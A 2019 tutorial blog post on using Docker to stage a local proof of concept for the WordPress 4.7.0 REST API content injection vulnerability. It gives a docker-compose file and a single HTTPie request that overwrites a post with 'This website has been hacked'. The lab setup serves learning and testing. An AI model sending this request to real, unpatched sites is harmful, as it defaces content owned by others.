 ```yaml
---
title: Creating a Quick PoC for an Exploit with Docker
author: minn
type: post
date: 2019-02-18T11:47:24+00:00
url: /2019/02/18/creating-a-quick-poc-exploit-with-docker/
tags:
  - docker
  - httpie
  - wordpress vulnerability

---
```

We will create a quick PoC for an exploit for a wordpress vulnerability. This is just to demonstrate the use of docker for PoC needs. I'll be emphasizing more on the process than the vulnerability itself. For this demo, we will be exploiting an old content injection vulnerability. You can read about its technical details here, <https://blog.sucuri.net/2017/02/content-injection-vulnerability-wordpress-rest-api.html>.

In short, the exploit only requires to send a rest API call to the wordpress application. 

To stage the demo, we will:

  * Setup a container that runs vulnerable version of WordPress-4.7. We'll create a wordpress/mysql stack with docker compose.
  * Make an HTTP POST request with a new content that overwrites the original post. I will use HTTPie tool. You may choose any tool you're familiar with, eg: curl, Postman, Insomnia.

Pre-requisite:

  * You must have Docker already installed. Running the command `docker version` from CLI should return server version.
  * You have an HTTP client that can make json HTTP post. I already have HTTPie on my Mac. I installed with `brew install httpie`

Create a directory.

Save the following file as `docker-compose.yml`:

```yaml
version: '2'
services:
  wordpress:
    image: wordpress:4.7.0
    ports:
      - 8080:80
    environment:
      WORDPRESS_DB_PASSWORD: example
  
  mysql:
    image: mariadb
    environment:
      MYSQL_ROOT_PASSWORD: example
```

Within the same directory run the following command:

```shell-session
$ docker-compose up --force-recreate; docker-compose down -v
```

You should see Docker downloading images and spinning up the servers. Once finished you should be able to browse to `http://localhost:8080` from your browser. Follow the instructions to finish the installation (by entering site name, username, password, fake email). Then you will see the admin dashboard. Go to Settings > Permalinks and choose the second option to enable pretty links. Open another browser window or new tab and browse to `http://localhost:8080` again. You should see your blog and a Hello World post.

To start exploit, run the following command from the shell/terminal to overwrite the post content.

```shell-session
$ http -f POST localhost:8080/wp-json/wp/v2/posts/1/\?id=123abc \
   content:=\"This website has been hacked\"
```

Now browse the site again and observe the "Hello World" blog post content has changed.

To end the PoC, press Ctrl+C on the docker-compose terminal.